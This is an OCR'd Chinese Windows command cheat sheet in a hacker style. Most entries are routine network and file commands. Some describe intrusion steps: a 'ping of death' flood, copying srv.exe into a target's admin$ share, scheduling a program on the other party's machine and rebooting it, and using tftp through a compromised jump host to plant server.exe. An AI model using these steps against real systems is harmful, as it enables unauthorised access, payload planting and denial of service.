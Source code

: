 netstat -s 查看正在使用的所有协议使用情况

nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名

tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。

ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。

ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)

ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息

tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)

kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)

del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件

del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）

move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖

fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令

at id号 开启已注册的某个计划任务

at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止

at id号 /delete 停止某个已注册的计划任务

at 查看所有的计划任务

at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机

finger username @host 查看最近有哪些用户登陆

telnet ip 端口 远和登陆服务器,默认端口为23

open ip 连接到IP（属telnet登陆后的命令）

telnet 在本机上直接键入telnet 将进入本机的telnet

copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件

copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下

copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：

xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

用参数/e才可连目录下的子目录一起复制到目标地址下。

tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送

tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机

ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)

route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
